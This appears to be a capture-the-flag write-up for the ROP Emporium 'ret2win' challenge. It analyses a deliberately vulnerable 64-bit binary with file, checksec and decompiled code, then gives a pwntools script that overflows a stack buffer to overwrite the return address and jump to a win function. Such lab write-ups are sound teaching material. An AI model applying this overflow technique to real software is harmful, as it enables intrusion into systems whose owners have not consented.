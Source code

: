 Ret2win is the first challenge from Rop Emporioum series.
We have to overwrite return address and call the win function to obtain the flag!


# Analyzing
Lets start with the File command.
```
ret2win: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=19abc0b3bb228157af55b8e16af7316d54ab0597, not stripped
```
Nice! we have a 64 bit not stripped executable. \
Lets continue by checking the protections of the binary running checksec
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   69 Symbols        No    0                               3ret2win
```
1. Stack cookie Not found so its easy to overwrite return address
2. NX enabled so stack is no long executable
3. No pie (default base address)

Lets open it in in ida. 
```c
char s[32]; // [rsp+0h] [rbp-20h] BYREF

memset(s, 0, sizeof(s));
puts("For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!");
puts("What could possibly go wrong?");
puts("You there, may I have your input please? And don't worry about null bytes, we're using read()!\n");
printf("> ");
read(0, s, 56uLL);
return puts("Thank you!");
```

Seems really straightforward the path that we need to follow. \
Binary reads 56 bytes of data and stores them on an array of length 32.Thats a buffer overflow!
Searching a bit more we can detect a function `ret2win` thats prints out the flag.
```c
puts("Well done! Here's your flag:");
return system("/bin/cat flag.txt");
```
In summary, we can overwrite our return address to win function and grab the flag!

# Exploiting
Writing our exploit
```python
from pwn import *

# Set up pwntools for the correct architecture. See `context.binary/arch/bits/endianness` for more
context.binary = elfexe = ELF('./ret2win') #FIXME

target = process([elfexe.path])

payload  = b"A"* 40      # Fill the buffer and overwrite base address 
payload += p64(0x400770) # ret for alignment
payload += p64(0x400756) # Jump to ret2win function

target.sendafter("> ", payload) 
target.interactive()
    
```
We manage to get the flag!
``
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
``
